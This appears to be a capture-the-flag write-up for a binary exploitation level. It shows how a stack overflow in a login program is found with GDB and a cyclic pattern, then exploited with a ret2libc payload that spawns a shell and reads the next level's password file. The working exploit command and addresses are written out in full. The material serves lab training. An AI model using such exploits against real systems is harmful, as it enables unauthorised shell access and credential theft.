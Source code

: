 # Level 01

Here we find a program that first asks for a user and then for a password. But it only passes to the password if the user is correct.

By decompiling the program or using "strings", we find that the user is "dat_wil" but also a certain password "admin" which is never used.

By testing, we realize that when we enter the right user but a password too long, the program crashes. We can try to make a ret2libc.

```sh
$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
nope, incorrect password...

Segmentation fault (core dumped)
```

With GDB and my pattern.py, we can find our offset for our injection.

```sh
$ python3 pattern.py 100 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A


(gdb) r < <(echo "dat_will"; echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
Starting program: /home/users/level01/level01 < <(echo "dat_will"; echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()

$ python3 pattern.py --crash 37634136  
Buffer crashed at size: 80
```

We've got our offset, let's find the addresses we're interested in. system, exit and "/bin/sh"

```sh
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find system, +9999999, "/bin/sh"
0xf7f897ec
```

Let's write our exploit:

[ OFFSET ] [ SYSTEM ADDR ] [ EXIT ADDR ] [ ARG ADDR ]

```sh
$ (echo dat_wil; python -c 'print("A" * 80 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7")'; cat) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
```
